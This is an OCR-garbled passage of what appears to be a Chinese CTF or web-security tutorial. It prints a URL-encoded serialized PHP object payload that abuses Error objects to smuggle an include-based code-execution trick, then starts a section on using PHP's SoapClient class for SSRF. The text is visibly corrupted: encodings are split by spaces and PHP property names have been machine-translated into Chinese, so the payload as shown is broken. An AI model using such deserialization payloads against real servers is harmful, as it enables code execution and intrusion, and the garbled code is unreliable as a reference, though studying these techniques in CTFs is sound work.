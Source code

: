 `  
`

``

`PHP`

``

    
    
    1  
    

|

    
    
    O% 3 A8% 3 A% 22 SYCLOVER% 22 % 3 A2% 3 A% 7 Bs% 3 A3% 3 A% 22 syc% 22 % 3 BO% 3 A5% 3 A% 22错误% 22 % 3 A7% 3 A% 7 Bs% 3 A10% 3 A% 22 % 00 % 2 A% 00消息% 22 % 3 Bs% 3A20% 3 A% 22 % 3 F% 3 E% 3 C% 3 F% 3 Dinclude% 7 E%D0% 99 % 93 % 9 E% 98 % 3 F% 3 E% 22 % 3 Bs% 3 A13% 3 A% 22 % 00错误% 00字符串% 22 % 3 Bs% 3 A0% 3 A% 22 % 22 %3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00代码% 22 % 3 Bi% 3 A1% 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00文件% 22 % 3 Bs % 3 A18% 3 A% 22 % 2 Fusercode% 2 Ffile.php% 22 % 3 Bs% 3 A7% 3 A%22 % 00 % 2 A% 00线% 22 % 3 Bi% 3 A19% 3 Bs% 3 A12% 3 A% 22 % 00误差% 00迹线% 22 % 3 Ba% 3 A0% 3 A% 7 B% 7 Ds% 3 A15% 3 A% 22 % 00错误% 00先前% 22 % 3 BN% 3 B%7 Ds% 3 A5% 3 A% 22情人% 22 % 3 BO% 3 A5% 3 A% 22错误% 22 % 3 A7% 3 A% 7 Bs% 3 A10% 3 A% 22 % 00 % 2 A% 00消息% 22 % 3 Bs% 3 A20% 3 A% 22 % 3 F% 3 E% 3 C% 3 F%3 Dinclude% 7 E%D0% 99 % 93 % 9 E% 98 % 3 F% 3 E% 22 % 3 Bs% 3 A13% 3 A% 22 % 00错误% 00字符串% 22 % 3 Bs% 3 A0% 3 A% 22 % 22 % 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00代码% 22 % 3 Bi% 3 A2% 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00文件% 22 % 3 Bs% 3 A18% 3 A% 22 % 2 Fusercode% 2 Ffile.php% 22 % 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00线% 22 % 3 Bi% 3A19% 3 Bs% 3 A12% 3 A% 22 % 00错误% 00跟踪% 22 % 3 Ba% 3 A0% 3 A% 7 B% 7 Ds% 3 A15% 3 A% 22 % 00错误% 00以前% 22 % 3 BN% 3 B% 7 D% 7 D  
      
  
---|---  
  
`  
`

`执行表达标志：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084243.png)`

# `使用 SoapClient 类进行 SSRF`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084244.png)`

## `SoapClient 类`

`PHP 的内置类 SoapClient 是一个专门用于访问 Web 服务的类，可以提供一个基于 SOAP 协议访问 Web 服务的 PHP 客户端。`

`类摘要如下：`

`  
`

``
